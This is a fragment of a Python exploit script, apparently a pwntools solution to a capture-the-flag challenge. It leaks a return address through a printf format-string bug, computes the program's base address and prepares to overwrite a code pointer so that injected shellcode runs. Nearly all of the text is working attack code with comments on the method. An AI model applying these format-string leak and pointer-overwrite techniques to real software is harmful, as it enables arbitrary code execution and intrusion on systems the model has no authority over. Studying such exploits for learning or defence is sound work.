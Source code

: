 ```python
# step 2: use the second printf string to overwrite CODE to
#         the address of the shellcode
# step 3: write the shellcode, which will instantly run it when done


# leaking return address
# printing with %p, the 11th value is the return address of the function calling
# printf, specifically the address of `lea    rdi,[rip+0x97a]`, which has relative
# address 0x1750

def send_command(c):
    log.debug("===> %s" % c)
    p.send(c + "\n")

def read_until(s):
    while True:
        line = p.recvline()
        log.debug("<=== %s" % line)
        if line.startswith(s):
            return line

def send_shellcode(s):
    send_command("2")
    for part in s:
        if len(part) > 8:
            raise Exception("Cannot write shellcode part with more than 8 bytes")
        part = part + [0xCC] * (8 - len(part))
        send_command(pack_shellcode(part))
    for i in range(7 - len(s)):
        send_command(breakpoints)
#    send_command("y")

# Send fake username
send_command("%p," * 11)
username = read_until("Hello, ")
log.info("Leaked username: %s" % username)
return_addr=int(username.split(",")[11], 16)
log.info("Leaked return address: %s" % hex(return_addr))
base_addr=return_addr - 0x1750
log.info("Base address: %s" % hex(base_addr))

buffer_start = base_addr + buffer_start_offset
log.info("Buffer starts at %s" % hex(buffer_start))

shellcode_addr = buffer_start + min(buffer_offsets)
log.info("First shellcode goes to %s" % hex(shellcode_addr))

code_ptr_addr = base_addr + 0x1355 + 0x3cab
log.info("Called address goes in %s" % hex(code_ptr_addr))

current_code_ptr_val = base_addr + 0x134e - 259
log.info("Called address current value is %s" % hex(current_code_ptr_val))

if current_code_ptr_val >> 16 != shellcode_addr >> 16:
    log.error("More than 16 bits of difference! Please re-run")
    import sys
    sys.exit(1)

value_to_write = shellcode_addr & 0xFFFF
log.info("Need to write %s/%d" % (hex(value_to_write), value_to_write))

current_time_addr = base_addr + 0x1583 + 0x3a85
log.info("Need to overwrite time at %s" % hex(current_time_addr))
```